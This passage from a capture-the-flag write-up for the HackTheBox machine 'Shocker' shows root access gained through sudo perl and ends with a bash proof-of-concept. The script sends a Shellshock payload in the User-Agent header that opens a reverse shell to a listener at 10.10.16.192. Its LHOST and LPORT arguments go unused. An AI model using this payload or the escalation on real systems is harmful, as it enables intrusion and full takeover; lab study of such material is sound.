 ```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
uname -a
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

Alright, now we're talking. We don't have a *pretty* shell but we're root! And it was pretty easy too. And there we have it, we've exploited the machine and obtained root permissions, from here we can read the `/home/shelly/user.txt` and the `/root/root.txt` and get our whole 0 points from HackTheBox!

```bash

shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /home/shelly/user.txt
13f51b<-- REDACTED -->
cat /root/root.txt  
b1fd49<-- REDACTED -->
```

# Super basic POC
```bash
#!/usr/bin/bash

# Super Basic POC Exploit code for HackTheBox Shocker
# Utilizes the ShellShock exploit

# Author: Brad Roberts

if [ $# -lt 2 ];then
    echo "Usage: $0 [LHOST\] [LPORT]"
    exit 1
fi

LHOST=$1
LPORT=$2

TARGET="http://10.10.10.56/cgi-bin/user.sh"

PAYLOAD="/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.192/12345 0>&1'"

curl -H "User-Agent: () { :; }; echo; echo; ${PAYLOAD}" ${TARGET}
```
